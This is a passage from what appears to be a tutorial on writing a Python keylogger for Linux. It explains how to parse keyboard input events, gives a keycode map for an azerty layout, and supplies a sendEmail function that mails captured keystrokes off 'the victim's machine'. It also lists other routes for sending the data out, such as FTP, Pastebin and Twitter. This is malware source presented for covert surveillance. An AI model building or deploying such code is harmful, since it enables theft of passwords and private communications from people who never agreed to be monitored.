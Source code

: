 Let's see together the purpose of the above piece of code and how we will use it to retrieve the structured data sent to our event file. We start by defining the format **FORMAT** pattern, which it's a string that tells Python what to read and how to sort it. **llHHI** means **long int**, **long int**, **short int**, **short int**, **int**.

After this, we simply unpack the stream and get it into separate variables. The first two **long** store the date which we will not use in this tutorial. The two **short** are the type and the code used. The **int** at the end is the value that interests us.

We then check that the code is different from "0", which means that there was an event with a type equal to "1", which corresponds to a pressed key.

We will need now to convert the value into a character. To do this we will simply define an "`array`" of all the possible values and the respective character. If you want to get a complete list of value, I recommend you to have a look in this [GitHub](https://github.com/torvalds/linux/blob/master/include/uapi/linux/input-event-codes.h)) repository which gives the following python dictionary slightly adapted for an **azerty** keyboard:

```python
qwerty_map = {
    2: "1", 3: "2", 4: "3", 5: "4", 6: "5", 7: "6", 8: "7", 9: "8", 10: "9",
    11: "0", 12: "-", 13: "=", 14: "[BACKSPACE]", 15: "[TAB]", 16: "a", 17: "z",
    18: "e", 19: "r", 20: "t", 21: "y", 22: "u", 23: "i", 24: "o", 25: "p", 26: "^",
    27: "$", 28: "\n", 29: "[CTRL]", 30: "q", 31: "s", 32: "d", 33: "f", 34: "g",
    35: "h", 36: "j", 37: "k", 38: "l", 39: "m", 40: "ù", 41: "*", 42: "[SHIFT]",
    43: "<", 44: "w", 45: "x", 46: "c", 47: "v", 48: "b", 49: "n", 50: ",",
    51: ";", 52: ":", 53: "!", 54: "[SHIFT]", 55: "FN", 56: "ALT", 57: " ", 58: "[CAPSLOCK]",
}
```

* * *

###### HOW TO RETRIEVE THE DATA?

We now know how to capture and store the data but there is still a problem. The ideal would be not to have to reconnect to the victim's machine to catch the data collected by the **keylogger**.

There are lots of techniques to achieve this! We can, for example, send the data over FTP, SSH, SCP, send it on Pastebin or either on Twitter.

For this tutorial, we will see the mails option, since it's something that Python allows you to do.

```python
def sendEmail(message):
    msg = MIMEMultipart()

    password = PASS
    msg['From'] = EMAIL
    msg['To'] = EMAIL
    msg['Subject'] = "Log clavier"

    msg.attach(MIMEText(message, 'plain'))

    server = smtplib.SMTP(SERVER)

    if USE_TLS is True:
        server.starttls()

    server.login(msg['From'], password)
    server.sendmail(msg['From'], msg['To'], msg.as_string())
    server.quit()
```
